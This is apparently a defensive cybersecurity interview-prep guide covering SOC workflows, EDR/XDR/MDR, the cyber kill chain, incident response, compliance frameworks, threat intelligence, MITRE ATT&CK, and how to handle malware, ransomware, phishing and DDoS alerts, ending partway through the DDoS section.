#### What a SOC Day Looks Like

##### Alert Triage (L1)

1. New alert fires in the SIEM
2. L1 analyst reviews the alert, checks context (user, asset, time, source IP)
3. Query recent activity — is this isolated or part of a pattern?
4. **False positive** → document and close with reason
5. **Potential real event** → escalate to L2 with all gathered context

##### Investigation (L2)

1. Receive escalated alert with L1 notes
2. Pull telemetry from EDR — process tree, parent process, child processes, network connections
3. Query SIEM — did this user or IP trigger other alerts recently?
4. Check threat intel feeds — is the IP, domain, or hash known bad?
5. **Confirmed incident** → hand off to IR / escalate to L3
6. **Inconclusive** → escalate to L3 for advanced analysis or close with justification

#### Key SOC Metrics

| Metric | What it measures |
|--------|-----------------|
| MTTD | Mean Time to Detect — how quickly a threat is identified |
| MTTR | Mean Time to Respond — time from detection to containment |
| Alert volume | Total alerts per day — rising volume may signal noise or an attack |
| False positive rate | Percentage of alerts that turn out to be benign |
| Escalation rate | Percentage of L1 alerts that become real investigations |
| SLA compliance | Percentage of alerts investigated within the required timeframe |

#### SOC Technologies

A SOC doesn't run on one tool. It uses a stack:

| Layer | Technology | Purpose |
|-------|-----------|---------|
| Detection | SIEM (Splunk, Sentinel, QRadar) | Log correlation and alerting |
| Endpoint | EDR (CrowdStrike, SentinelOne) | Host-level visibility and containment |
| Automation | SOAR (XSOAR, Splunk SOAR) | Playbook-driven response automation |
| Threat Intel | MISP, Recorded Future, Mandiant | Enriching indicators with attacker context |
| Ticketing | Jira, ServiceNow, TheHive | Case tracking and escalation management |
| Network | NDR, IDS/IPS, Zeek | Network-level visibility and detection |

#### Common Interview Questions

###### What is the difference between the SOC and the IR team?
> The SOC handles ongoing monitoring and triage every day. The incident response team steps in for confirmed, significant incidents requiring deep forensics, containment, and recovery. In smaller organisations the SOC and IR are the same team; in larger ones they are separate.

###### What is alert fatigue and how do you address it?
> Alert fatigue is when analysts are overwhelmed by too many low-quality alerts and start ignoring or missing real ones. You address it by tuning SIEM rules to reduce noise, suppressing known-good activity, using SOAR to auto-close confirmed false positives, and focusing on high-fidelity detections.

###### What makes a good SOC analyst?
> Curiosity — you want to understand why something happened, not just close the ticket. Attention to detail when pivoting through logs and telemetry. Good communication to escalate clearly. And the ability to stay calm under pressure during active incidents.

###### What is threat hunting?
> Threat hunting is a proactive search for attacker behaviour that automated detections have not yet caught. A hunter starts with a hypothesis — "what if an attacker is using living-off-the-land techniques?" — and searches through EDR and SIEM data looking for subtle signs of that behaviour.

### EDR, XDR & MDR

Endpoint Detection and Response, Extended Detection and Response, and Managed Detection and Response are three related but distinct capabilities. Together they form the modern detection and response layer that goes far beyond traditional antivirus.
{ .page-lead }

!!! note "Interview answer"
    *"EDR monitors individual endpoints for suspicious behaviour and enables investigation and containment. XDR extends that by correlating signals across endpoint, identity, email, network, and cloud into a single detection view. MDR is a managed service where a third party operates these capabilities on your behalf."*

#### EDR — Endpoint Detection and Response

EDR replaced traditional antivirus by continuously recording what happens on a device — processes, network connections, file changes, script execution, and memory behaviour — and using that data to detect, investigate, and respond to threats.

##### What EDR does

| Capability | Description |
|-----------|-------------|
| Continuous monitoring | Records all process activity, script execution, file operations, and registry changes |
| Behavioural detection | Flags suspicious patterns — not just known signatures — so zero-days can be caught |
| Process tree | Shows the full chain of parent → child processes so analysts understand how an attack unfolded |
| Threat hunting | Lets analysts search historical telemetry for indicators of compromise across all endpoints |
| Isolation | Can cut a compromised device off from the network while keeping telemetry flowing |
| Remote response | Analysts can run queries, kill processes, or collect forensic artefacts remotely |

##### Real-world example

An EDR agent on a finance laptop observes:

1. `winword.exe` spawning `cmd.exe` (unusual)
2. `cmd.exe` downloading a script from an external IP
3. The script attempting to disable Windows Defender

The EDR detects the behaviour chain, assigns a high-severity alert, and automatically isolates the laptop — stopping lateral movement before the attacker can pivot to other systems.

##### Leading EDR platforms

| Platform | Notes |
|---------|-------|
| CrowdStrike Falcon | Cloud-native; lightweight agent; industry-leading threat intelligence |
| SentinelOne | Strong autonomous response; kernel-level visibility |
| Microsoft Defender for Endpoint | Deep Windows integration; part of the Microsoft XDR ecosystem |
| Palo Alto Cortex XDR | Combines EDR with network and cloud telemetry |
| Trellix (McAfee/FireEye) | Enterprise-focused; strong MDR integration |

---

#### XDR — Extended Detection and Response

XDR extends EDR by breaking down the silos between security tools. Instead of separate alerts from your EDR, your email gateway, your identity platform, and your network sensors, XDR correlates all of them into unified incidents.

##### What XDR adds over EDR

| Capability | EDR | XDR |
|-----------|-----|-----|
| Coverage | Endpoints only | Endpoint + identity + email + network + cloud |
| Alert correlation | Per-endpoint | Cross-signal incident grouping |
| Investigation | Host-centric pivot | Follow attack across all affected systems |
| Context | Process and file data | Full attack chain across multiple layers |

##### Example XDR correlation

An XDR platform links:

- **Email:** A phishing email was delivered and a link was clicked
- **Endpoint:** PowerShell ran and downloaded a file seconds later
- **Identity:** The user's account authenticated from a new location 10 minutes later
- **Network:** Outbound connection to a known C2 IP

All four alerts — from four different tools — are grouped into one incident with a single timeline. Without XDR, an analyst would need to manually connect these across four dashboards.

##### Leading XDR platforms

| Platform | Notes |
|---------|-------|
| Microsoft Defender XDR | Correlates Defender for Endpoint, Office 365, Entra ID, and Defender for Cloud |
| Palo Alto Cortex XDR | Combines Prisma cloud data with endpoint and network telemetry |
| CrowdStrike Falcon XDR | Extends Falcon EDR to third-party data sources |
| Trellix XDR | Multi-vendor open XDR approach |
| Elastic Security | Open-source XDR with broad integration options |

---

#### MDR — Managed Detection and Response

MDR is a service, not a product. An organisation hires an MDR provider who monitors their environment 24/7, investigates threats, and performs containment — essentially running EDR and XDR for them.

##### Why organisations use MDR

| Reason | Detail |
|--------|--------|
| No in-house SOC | MDR gives 24/7 monitoring without building a full team |
| Expertise gap | MDR providers bring experienced analysts and threat hunters |
| Technology included | Many MDR services bundle their own EDR platform |
| Speed | MDR providers often respond faster than an internal team that handles other duties |
| Cost | Cheaper than maintaining a fully staffed internal SOC for many organisations |

##### MDR vs MSSP

| | MDR | MSSP |
|-|-----|------|
| Focus | Detection and response — active threat hunting | Broader managed security services — firewall, log management, compliance |
| Depth | Deep investigation and containment | Alert forwarding and monitoring |
| Response | Analyst actively contains threats | Typically alerts the customer to act |

##### Leading MDR providers

| Provider | Notes |
|---------|-------|
| CrowdStrike Falcon Complete | Full managed EDR from CrowdStrike |
| Arctic Wolf | Network-centric MDR with continuous monitoring |
| Rapid7 MDR | Combines Rapid7 tools with human-led investigation |
| Sophos MDR | Strong SMB focus; integrates with third-party tools |
| Mandiant MDR | Threat-intelligence-led investigation |

---

#### How EDR, XDR, and MDR Work Together

```
                    Your environment
       ┌─────────┬───────────┬──────────┬─────────┐
       │Endpoints│  Email    │ Identity │  Cloud  │
       └────┬────┴─────┬─────┴────┬─────┴────┬────┘
            │          │          │           │
            └──────────┴──────────┴───────────┘
                              │
                            EDR               ← monitors endpoints
                              │
                            XDR               ← correlates all signals
                              │
                    MDR (if outsourced)       ← human analysts 24/7
                              │
                      Alert → Investigate → Contain
```

#### Interview Questions

###### What is the difference between EDR and antivirus?
> Traditional antivirus uses signatures to detect known malware. EDR monitors all endpoint behaviour continuously so it can catch unknown threats, fileless attacks, and living-off-the-land techniques that have no signature. EDR also provides investigation, hunting, and remote response — antivirus only prevents and removes.

###### What does it mean to isolate a host in EDR?
> Isolation cuts the device's network access so it cannot communicate with other systems or the attacker's C2 infrastructure. The EDR agent itself stays connected so analysts can still run queries, collect evidence, and remediate remotely without physically touching the machine.

###### Why would an analyst look at the process tree?
> The process tree shows which process launched which child process and in what order. It reveals how an attack unfolded — for example, seeing `outlook.exe → powershell.exe → certutil.exe` immediately tells you a macro-enabled email executed a download cradle.

###### When would you choose MDR over building your own SOC?
> When the organisation lacks the budget, staffing, or expertise to run 24/7 monitoring internally. MDR makes sense for organisations without a mature security function who need immediate detection and response capability without a multi-year programme to build it.

### Cyber Kill Chain

The cyber kill chain is a seven-stage attack lifecycle model created by Lockheed Martin. It maps how an attacker progresses from initial research all the way to achieving their goal — and shows defenders exactly where they can stop the attack.
{ .page-lead }

!!! note "Interview answer"
    *"The cyber kill chain is a seven-stage model showing how an attack moves from reconnaissance through to its final objective. Each stage is a potential intervention point. Defenders use it to map controls to attack phases and break the chain before the attacker reaches their goal."*

{ .page-image }

#### The Seven Stages

| Stage | What the attacker does | How defenders respond |
|-------|----------------------|----------------------|
| **1. Reconnaissance** | Researches targets — domain info, employee names, open ports, exposed services | Reduce public exposure; monitor scanning; limit OSINT footprint |
| **2. Weaponisation** | Combines an exploit with a payload — e.g. a macro document dropping malware | Patch known CVEs; use threat intel to anticipate techniques |
| **3. Delivery** | Sends the malicious content — phishing email, malicious URL, infected USB | Email security gateway; web filtering; phishing awareness training |
| **4. Exploitation** | Triggers the vulnerability or tricks the user into running the payload | EDR; patching; exploit prevention; application allow-listing |
| **5. Installation** | Establishes persistence — scheduled task, registry key, web shell | Application control; EDR behaviour monitoring; least privilege |
| **6. Command & Control** | Opens a channel back to attacker infrastructure for remote instructions | Egress filtering; DNS monitoring; network anomaly detection |
| **7. Actions on Objectives** | Exfiltrates data, deploys ransomware, moves laterally, disrupts services | Segmentation; DLP; incident response; offline backups |

#### Why the Kill Chain Matters

The earlier you break the chain, the less damage is done.

- Stopping delivery (stage 3) prevents exploitation entirely
- Stopping installation (stage 5) prevents persistence being established
- By stage 7, the attacker has already achieved their goal — recovery is the only option

The model also helps teams communicate clearly: instead of saying "we got hacked," you can say "the attacker reached stage 6 before we detected C2 beaconing and isolated the host."

#### Real Example — WannaCry

| Stage | What happened |
|-------|--------------|
| Reconnaissance | NSA identified and exploited the EternalBlue SMB vulnerability (CVE-2017-0144) |
| Weaponisation | WannaCry combined EternalBlue with a ransomware payload |
| Delivery | Self-propagating — no phishing needed; it scanned for exposed port 445 |
| Exploitation | Exploited unpatched Windows systems running SMBv1 |
| Installation | Installed ransomware and a backdoor (DoublePulsar) |
| C2 | Attempted to contact a kill-switch domain; researchers registered it, halting spread |
| Objectives | Encrypted files and demanded Bitcoin ransom; disrupted NHS and hundreds of organisations |

**Lesson:** Patching MS17-010 and disabling SMBv1 would have broken the chain at stage 4.

#### Kill Chain vs MITRE ATT&CK

| | Cyber Kill Chain | MITRE ATT&CK |
|-|-----------------|--------------|
| Purpose | High-level attack progression model | Detailed catalogue of adversary techniques |
| Stages | 7 sequential phases | 14 tactics with hundreds of techniques |
| Best for | Explaining how an attack unfolds | Mapping detections, hunting, and gap analysis |
| Origin | Lockheed Martin (2011) | MITRE Corporation (2013, ongoing) |

Use the kill chain to explain attack flow in interviews. Use ATT&CK when doing detection engineering or threat hunting.

#### Interview Questions

###### What is lateral movement, and where does it fit in the kill chain?
> Lateral movement is when an attacker moves from their first compromised system to other internal systems. It sits inside the Actions on Objectives stage — the attacker is using the access they have to expand their foothold toward higher-value targets.

###### If an attacker is already at Command & Control, what can defenders still do?
> Block outbound C2 traffic at the firewall; use DNS filtering to prevent beacon resolution; isolate the infected host with EDR; hunt for additional compromised systems before the attacker reaches the objectives stage.

###### What is the difference between an exploit and a payload?
> An exploit is the technique that takes advantage of a vulnerability to gain code execution or access. A payload is what runs after the exploit succeeds — for example, a ransomware binary, a reverse shell, or a credential-dumping tool.

###### Why is it better to stop an attack early in the kill chain?
> Because each stage builds on the last. Breaking the chain at delivery prevents exploitation entirely. By stage 6 or 7 the attacker has persistence, C2, and is actively working toward their objective — stopping them at that point requires containment, eradication, and recovery, which is far more disruptive than blocking a phishing email.

### Incident Response

Incident response is the structured process security teams follow to prepare for, detect, contain, eradicate, and recover from security incidents while minimizing business impact.
{ .page-lead }

!!! note "Interview answer"
    *"Incident response is a repeatable lifecycle used to handle security incidents effectively. The common phases are Preparation, Identification, Containment, Eradication, Recovery, and Lessons Learned. The goal is to reduce damage, restore operations, and improve defenses after the incident."*

#### The six phases

##### 1. Preparation

- Build the incident response plan
- Define roles and communication paths
- Make sure logging, SIEM, EDR, and backups are ready
- Train staff and run exercises

##### 2. Identification

- Review alerts from SIEM, IDS, and EDR
- Confirm whether an incident is real
- Determine scope, severity, and affected assets

##### 3. Containment

- Isolate infected hosts
- Block malicious IPs or domains
- Disable compromised accounts
- Preserve evidence where needed

##### 4. Eradication

- Remove malware and attacker persistence
- Patch the exploited weakness
- Reset compromised credentials

##### 5. Recovery

- Restore from clean backups
- Return systems to production carefully
- Monitor for reinfection or follow-on activity

##### 6. Lessons Learned

- Document the timeline and root cause
- Review what worked and what failed
- Update playbooks, controls, and training

#### Example severity levels

| Level | Meaning | Example |
| --- | --- | --- |
| P1 | Critical | Active ransomware on business-critical systems |
| P2 | High | Confirmed data breach |
| P3 | Medium | Malware on one endpoint without wider spread |
| P4 | Low | Routine suspicious event or unsuccessful attempt |

#### Common interview questions

###### What is the first thing you do in a ransomware incident?
> The first priority is containment. Isolate the infected system quickly to stop lateral movement and prevent more systems from being encrypted.

###### Why are lessons learned important?
> Because incident response is not finished when systems come back online. The lessons learned phase is what turns an incident into improved detection, better playbooks, and stronger prevention.

</section>

<section class="pdf-guide-section" data-pdf-section-group="governance-compliance" data-pdf-section-title="⚖️ Governance & Compliance" markdown="1">

## ⚖️ Governance & Compliance

### Compliance & Regulatory Floor

Compliance means following laws, regulations, standards, or contractual requirements related to security and data protection. It is important, but compliance alone does not automatically mean an organization is secure.
{ .page-lead }

!!! note "Interview answer"
    *"Compliance is the process of meeting required legal, regulatory, or industry security obligations such as GDPR, HIPAA, or PCI DSS. It defines a baseline, but strong security requires continuous risk management beyond simple compliance."*

#### Why compliance matters

- Protects sensitive data
- Reduces legal and regulatory risk
- Builds customer trust
- Supports audits and contracts
- Creates minimum security expectations

#### Major compliance frameworks

| Framework | Main focus | Typical organizations |
| --- | --- | --- |
| GDPR | Personal data and privacy of EU residents | Any organization handling EU personal data |
| HIPAA | Protected health information | Healthcare providers and related vendors |
| PCI DSS | Payment card data | Merchants, processors, payment service providers |
| ISO 27001 | Information security management system | Any organization seeking structured security governance |
| SOC 2 | Trust controls for service organizations | SaaS, cloud, and technology providers |

#### Compliance versus security

| Feature | Compliance | Security |
| --- | --- | --- |
| Goal | Meet required obligations | Reduce risk and protect the business |
| Driver | Laws, standards, contracts | Threats, vulnerabilities, and risk |
| Style | Minimum baseline | Continuous improvement |
| Outcome | Passing audits and avoiding penalties | Better resilience and protection |

#### Common interview questions

###### What is data minimization?
> Data minimization means collecting only the data that is genuinely necessary for the business purpose. Less collected data means less data to protect and less data to lose in a breach.

###### What is a data retention policy?
> A data retention policy defines how long different categories of data should be kept and when they should be securely deleted.

### Security Frameworks (NIST & ISO)

Security frameworks give teams a shared structure for managing risk, selecting controls, measuring maturity, and responding to incidents. In interviews, the goal is usually not to list every framework. It is to explain which framework fits which problem and why.
{ .page-lead }

!!! note "Interview answer"
    *"I use security frameworks based on the job they need to do. For overall program design and maturity, I use NIST CSF or ISO 27001. For attack analysis and detection mapping, I use MITRE ATT&CK. For incident response, I use a response framework such as NIST SP 800-61 or SANS. For cloud, I use the shared responsibility model to explain which controls belong to the provider and which belong to the customer."*

#### Choose the framework by the problem

| Need | Best fit | Why it helps |
| --- | --- | --- |
| Build or improve a security program | NIST CSF, ISO 27001 | Organizes security work into governance, controls, and continuous improvement |
| Meet legal or contractual requirements | GDPR, HIPAA, PCI DSS, SOC 2 | Defines mandatory obligations or audit expectations |
| Map attacker behavior | MITRE ATT&CK | Helps analysts connect detections to real attacker techniques |
| Respond to incidents | NIST SP 800-61, SANS incident response process | Provides a clear response lifecycle |
| Clarify cloud responsibilities | Shared responsibility model | Separates provider controls from customer controls |

#### NIST CSF

The NIST Cybersecurity Framework is one of the most useful high-level frameworks for describing how a security program works. It groups security activity into these core functions:

1. Identify
2. Protect
3. Detect
4. Respond
5. Recover

It is useful when you need to explain maturity, justify controls, or show gaps in a program.

#### ISO 27001

ISO 27001 is an international standard for building and operating an information security management system, often called an ISMS. It is useful when an organization wants a formal, auditable security program with documented policies, risk treatment, and ongoing review.

#### MITRE ATT&CK

MITRE ATT&CK is a knowledge base of attacker tactics and techniques based on real-world behavior. It is especially useful for SOC teams, threat hunters, purple teams, and detection engineers.

Use MITRE ATT&CK when you want to:

- describe how an attacker achieved something
- map alerts to known techniques
- identify coverage gaps in detections
- plan threat hunting or adversary simulation

#### Compliance frameworks and regulations

Not every framework is optional. Some are legal or contractual requirements rather than voluntary guidance.

| Framework or regulation | Main purpose |
| --- | --- |
| GDPR | Protect personal data and privacy for people in the EU |
| HIPAA | Protect health information in the United States |
| PCI DSS | Protect payment card data |
| SOC 2 | Evaluate security and trust controls for service organizations |

This distinction matters in interviews: a framework such as NIST CSF helps you organize security, while a regulation such as GDPR tells you what obligations you must meet.

#### Shared responsibility in cloud environments

When working with AWS, Azure, or Google Cloud, you still own many security decisions. The cloud provider is responsible for the security of the cloud, while the customer is responsible for security in the cloud.

Typical examples:

- Provider responsibility: physical data centers, core infrastructure, managed service platform security
- Customer responsibility: identity, access control, operating system hardening, network configuration, application security, and data protection

#### How to explain framework choice in an interview

If an interviewer asks which framework you would use, anchor your answer to the business need:

- use NIST CSF or ISO 27001 for overall governance and maturity
- use MITRE ATT&CK for detection, threat hunting, and attacker behavior
- use an incident response framework when discussing response workflow
- use compliance frameworks when legal or audit obligations drive the work

#### Common interview questions

###### What is the difference between a framework and a regulation?
> **Answer:** A framework is a structured set of practices that helps an organization improve security. A regulation is a legal or contractual requirement that the organization must follow.

###### What is gap analysis?
> **Answer:** Gap analysis is the process of comparing the current security state with a target framework or standard to identify missing controls, weak processes, or documentation gaps.

###### How do you decide which framework to prioritize?
> **Answer:** Start with the business context. Industry, geography, customer requirements, and risk profile determine the priority. For example, card data pushes PCI DSS higher, healthcare data pushes HIPAA higher, and general program maturity often starts with NIST CSF.

### Risk & Threat Intelligence

Risk management helps an organization decide what to protect first. Threat intelligence helps it understand which attackers, techniques, and indicators matter most right now. Together, they help security teams spend time and budget where it will reduce the most risk.
{ .page-lead }

!!! note "Interview answer"
    *"Risk management is the process of identifying, assessing, and treating security risks based on likelihood and impact. Threat intelligence is the collection and analysis of information about current threats, adversaries, and techniques. In practice, I use threat intelligence to improve risk decisions so we prioritize the threats that are most relevant to our environment."*

#### Risk basics

Risk is often explained with a simple model:

`Risk = Threat x Vulnerability x Impact`

That formula is not a full enterprise risk method, but it is useful in interviews because it shows the relationship between exposure and business impact.

#### Risk treatment options

Once a risk is identified, teams usually choose one of four responses:

| Treatment | What it means | Example |
| --- | --- | --- |
| Mitigate | Reduce the likelihood or impact | Patch a server, enable MFA, segment a network |
| Transfer | Shift some financial impact to another party | Buy cyber insurance or use a managed service |
| Avoid | Stop the activity that creates the risk | Decommission a vulnerable legacy service |
| Accept | Keep the risk because it is within tolerance | Accept a low-impact internal issue with monitoring |

#### Threat intelligence types

| Type | Audience | Example |
| --- | --- | --- |
| Strategic | Executives and leadership | Trends in ransomware against healthcare or banking |
| Operational | Security managers and incident responders | Intelligence about a campaign targeting a region or industry |
| Tactical | SOC analysts and defenders | Common attacker behavior, tools, and procedures |
| Technical | Security tools and analysts | Malicious IPs, domains, file hashes, and URLs |

#### Threat intelligence lifecycle

Most threat intelligence programs follow a repeatable cycle:

1. Direction: define what intelligence is needed.
2. Collection: gather data from internal and external sources.
3. Processing: normalize and organize the data.
4. Analysis: turn raw data into useful findings.
5. Dissemination: share the findings with the right audience.
6. Feedback: improve the process based on what was useful.

#### How risk management and threat intelligence work together

Threat intelligence becomes useful when it changes decisions. For example:

- if intelligence shows active exploitation of a VPN flaw, that vulnerability moves higher on the patching list
- if a sector is seeing business email compromise, email controls and finance approval processes may need more attention
- if an actor frequently uses a specific technique, SOC teams can map detections to that behavior

#### Common interview questions

###### What is residual risk?
> **Answer:** Residual risk is the risk that remains after security controls have been applied. No control removes risk completely, so the remaining risk has to be accepted, monitored, or treated further.

###### What is the difference between an IOC and an IOA?
> **Answer:** An IOC, or indicator of compromise, is evidence that a system has likely already been compromised. An IOA, or indicator of attack, is a sign of suspicious behavior that may show an attack in progress or about to succeed.

###### What is the Pyramid of Pain?
> **Answer:** The Pyramid of Pain shows how difficult it is for an attacker to change different artifacts. Blocking a hash or IP address causes little pain because attackers can replace them quickly. Detecting tactics and techniques causes much more pain because changing behavior is harder.

### TTPs — IOC, IOA & MITRE ATT&CK

IOCs, IOAs, and MITRE ATT&CK help analysts describe suspicious activity in a structured way. They are common interview topics because they connect threat detection, incident response, and threat hunting.
{ .page-lead }

!!! note "Interview answer"
    *"An IOC, or Indicator of Compromise, is evidence that a system has already been compromised, such as a malicious hash or IP address. An IOA, or Indicator of Attack, is a behavioral sign that an attack is happening or being attempted, such as unusual lateral movement. MITRE ATT&CK is a knowledge base of attacker tactics and techniques used to map detections and analyze adversary behavior."*

#### IOC versus IOA

| Feature | IOC | IOA |
| --- | --- | --- |
| Focus | Evidence of compromise | Evidence of attack behavior |
| Timing | Usually after compromise | During or before full compromise |
| Style | Reactive | More proactive |
| Example | Malicious file hash | Suspicious PowerShell execution |

#### MITRE ATT&CK

MITRE ATT&CK documents attacker tactics and techniques based on real-world observations.

##### Common ATT&CK tactics

1. Reconnaissance
2. Resource Development
3. Initial Access
4. Execution
5. Persistence
6. Privilege Escalation
7. Defense Evasion
8. Credential Access
9. Discovery
10. Lateral Movement
11. Collection
12. Command and Control
13. Exfiltration
14. Impact

#### Tactic versus technique

- A tactic is the attacker's goal.
- A technique is the specific method used to achieve that goal.
- A procedure is how a real attacker or group actually carries it out.

#### Why security teams use them

- IOCs are shared to block known threats quickly
- IOAs help detect attacker behavior earlier
- ATT&CK helps map alerts to known tactics and techniques
- SOC teams use ATT&CK to improve detections and coverage

#### Common interview questions

###### Why are IOAs often more powerful than IOCs?
> Because attackers can easily change IPs, domains, or hashes, but it is much harder for them to change the underlying behavior they need to achieve their goals.

###### What is MITRE gap analysis?
> It is the process of mapping your current detections and telemetry to ATT&CK techniques to see which behaviors you can detect and which ones you are missing.

</section>

<section class="pdf-guide-section" data-pdf-section-group="soc-alerts-scenarios" data-pdf-section-title="🚨 SOC Alerts & Scenarios" markdown="1">

## 🚨 SOC Alerts & Scenarios

### General Alert Handling

!!! note "What is an Alert?"
    An alert is a notification generated by a security tool (like a SIEM, EDR, or Firewall) indicating that a specific rule or threshold has been breached. It serves as the starting point for SOC analysts to investigate potential security incidents.

##### What to check (SOC L1):
*   **Alert Type & Severity** (Low/Medium/High/Critical)
*   **Timestamp** of the event
*   **Source IP & Destination IP**
*   **Username** & **Affected System / Hostname**
*   Did the security tool say "Blocked" or "Allowed"?

##### Interview Answer

**Q: How do you handle alerts?**

When an alert is generated, the first step is to **review the alert details** in the SIEM or security monitoring tool. I check information such as the alert type, severity, timestamp, source IP, destination IP, username, and affected system.

After that, I perform **initial triage** to determine whether the alert is legitimate or a false positive. I correlate logs, check historical activity, and verify if similar events occurred earlier.

If the activity looks suspicious, I move to the **investigation stage**. I analyze related logs, endpoint activity, and network events to understand the root cause and identify any indicators of compromise.

If the alert is confirmed as malicious, I take **initial containment actions**, such as blocking the malicious IP, isolating the endpoint, or disabling a compromised account depending on the situation.

Then I **escalate the incident** to the L2 or incident response team with all the investigation findings and relevant evidence.

Finally, I **document the incident properly** in the ticketing system, including the investigation steps, findings, and actions taken.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Triage:** First, I review the alert details and severity. Then, I perform initial triage by correlating logs and checking historical activity.
    *   **Investigate:** If the alert is suspicious, I investigate further using SIEM and endpoint tools.
    *   **Contain & Escalate:** If confirmed malicious, I take immediate containment actions, escalate to the L2 team, and extensively document the incident.

### Malware Infection

!!! note "What is Malware?"
    Malware (malicious software) is any file or code designed to harm, exploit, or gain unauthorised access to a system. In a SOC, malware alerts usually come from EDR tools, antivirus, or network sandboxes detecting suspicious file downloads or execution.

##### What to check (SOC L1):
*   **Alert Type & Severity** (Low/Medium/High/Critical)
*   **Timestamp** of the event
*   **Source IP & Destination IP**
*   **Username** & **Affected System / Hostname**
*   **File name and location**
*   **File hash** (Check it on VirusTotal)
*   Did the antivirus/EDR say it blocked or quarantined the file?

##### Interview Answer

**Q: How do you handle a malware attack?**

When a malware alert is detected, I first **review the alert details** in the EDR or SIEM tool to identify the affected endpoint, file name, file hash, process activity, and alert severity.

Next, I perform **initial triage** by checking the file path, process execution, and parent process. I also verify the file hash or IP reputation using **threat intelligence platforms** to determine whether the file is malicious.

Then I **investigate the endpoint activity**, such as analyzing the process tree, command-line execution, and network connections made by the suspicious file.

If the activity is confirmed as malicious, I initiate **containment actions**. This may include isolating the infected endpoint from the network, blocking the malicious hash or IP address, and stopping the malicious process.

After containment, I **escalate the case** to the L2 or incident response team with all investigation details, including logs, file hashes, indicators of compromise, and affected systems.

Finally, I **document the incident** in the ticketing system with all the investigation steps and response actions.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Triage:** I check the file hash, process activity, and endpoint logs.
    *   **Verify:** I verify the threat level using external threat intelligence (like VirusTotal).
    *   **Contain & Escalate:** If confirmed malicious, I isolate the affected endpoint, block the malicious indicators globally, escalate to L2, and document the incident.

### Ransomware Attack

!!! note "What is Ransomware?"
    Ransomware is a severe type of malware that uses strong cryptography to encrypt an organisation's files, databases, or systems, making them inaccessible. The attacker then extorts the victim, demanding a ransom payment in exchange for the decryption key, and often threatens to leak stolen data publicly (double extortion).

##### What to check (SOC L1):
*   **Alert Type & Severity** (Low/Medium/High/Critical)
*   **Timestamp** of the event
*   **Source IP & Destination IP**
*   **Username** & **Affected System / Hostname**
*   Did multiple files suddenly change to a weird extension (like `.locked`)?
*   Is there a text file on the desktop demanding money (ransom note)?
*   Are other computers on the network throwing similar alerts?

##### Interview Answer

**Q: How do you respond to a ransomware outbreak?**

When a ransomware outbreak is detected, the absolute first priority is **strict and immediate containment**. I use the EDR to aggressively isolate any affected hosts from the network. If the outbreak is spreading rapidly, I work with the network team to drop internal routing or shut down VPN access to cut off lateral movement.

Once containment is achieved, I begin the **investigation**. I look for the initial entry vector, such as a phishing email, unpatched external server, or compromised RDP credentials. I identify the specific ransomware variant and extract IOCs from the isolated systems.

For **eradication**, I assume the infected hosts cannot be trusted again. I identify and revoke all compromised admin accounts and persistence mechanisms. I coordinate with the infrastructure team to wipe the affected systems completely.

Finally, I work with the **disaster recovery team** to verify that offline, immutable backups are safe. We meticulously restore the affected services from clean backups onto rebuilt servers, monitoring closely for any signs of reinfection.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Immediate Containment:** I aggressively isolate infected hosts via EDR to immediately stop the spread.
    *   **Investigate & Eradicate:** I investigate the entry vector and reset any compromised administrative credentials.
    *   **Recovery:** I work directly with the infrastructure team to wipe the machines completely and restore them strictly from offline, immutable backups.

### Phishing & Email

!!! note "What is Phishing?"
    Phishing is a social engineering attack where an adversary sends fraudulent emails masquerading as a trusted entity. The goal is to trick the recipient into clicking a malicious link, downloading malware, or surrendering sensitive credentials.

##### What to check (SOC L1):
*   **Alert Type & Severity** (Low/Medium/High/Critical)
*   **Timestamp** of the event
*   **Source IP** (Sender email IP from headers)
*   **Username** (The employee who received it)
*   **URL links inside the email** (Check them safely on URLScan.io)
*   **Attachments** (Check the file hash on VirusTotal)
*   Most importantly: Did the user actually click the link or download the file?

##### Interview Answer

**Q: How do you investigate a suspicious phishing email?**

When an email is reported, I immediately **pull the email headers** to identify the true sender IP, the return path, and the timestamp. I evaluate the context for social engineering tactics.

If the email contains a link, I check the **domain reputation** via threat intelligence tools and detonate the link in an isolated sandbox. If there is an attachment, I extract the file hash or detonate it in a malware sandbox to observe its behavior.

The most critical step is **determining if the user actually interacted** with the payload. I query proxy or DNS logs to see if their IP reached out to the malicious domain, and check EDR logs to see if a malicious attachment executed.

If they clicked a credential harvesting link, I force an **immediate password reset** and revoke active sessions. If they ran malware, I isolate their host via EDR.

Finally, I run a search query across the mail server to **purge the phishing email** from all other employee inboxes, block the malicious sender domain globally, and document the entire workflow in the ticket.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Triage:** I extract email headers to find the true sender and examine the payload safely in an isolated sandbox.
    *   **Investigate:** I check proxy and EDR logs exclusively to see if the user actually clicked the link or executed the attachment.
    *   **Contain & Escalate:** I logically purge the email globally, block the sender domain, and force a password reset or host isolation if the user was compromised.

### DDoS Attack

!!! note "What is a DDoS Attack?"
    A Distributed Denial of Service (DDoS) attack is an attempt to disrupt the normal traffic of a targeted server, service, or network by overwhelming the target or its infrastructure with a flood of malicious internet traffic from multiple compromised sources.

##### What to check (SOC L1):
*   **Alert Type & Severity** (Low/Medium/High/Critical)
*   **Timestamp** of the event
*   **Source IP** (Thousands of attacking IPs) & **Destination IP** (Your website)
*   Are there thousands of requests coming from many different IPs?
*   Is the website currently down or very slow?
*   Are the IPs coming from unusual countries where you have no customers?
*   Did the Web Application Firewall (WAF) block the surge?

##### Interview Answer

**Q: How do you respond to a DDoS alert?**

When a DDoS alert triggers, I **review alerts from the WAF** or network monitoring tools to determine the attack type. I check if it is a volumetric Layer 3/4 attack attempting to choke bandwidth, or a Layer 7 application attack targeting specific endpoints.

I **analyze the firewall access logs** and NetFlow data. For volumetric attacks, I look at the volume of traffic and the protocol being abused. For application attacks, I check WAF logs for patterns in the HTTP requests, such as identical User-Agent strings or abnormal geographic traffic.

For **containment** of a volumetric attack, local firewalls are usually overwhelmed, so I immediately contact our ISP for **blackhole routing** or ensure our cloud Anti-DDoS provider is absorbing the traffic at the edge. 

For a Layer 7 attack, I deploy **strict rate-limiting policies** on the WAF, block specific malicious User-Agents, and geoblock regions that aren't part of our normal customer base.

Finally, I **continuously monitor** application health metrics to verify the mitigations are working, and document the peak volumes and attack patterns in the incident report.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Triage:** I determine if the alert is a volumetric (Layer 3/4) or an application-layer (Layer 7) DDoS attack.
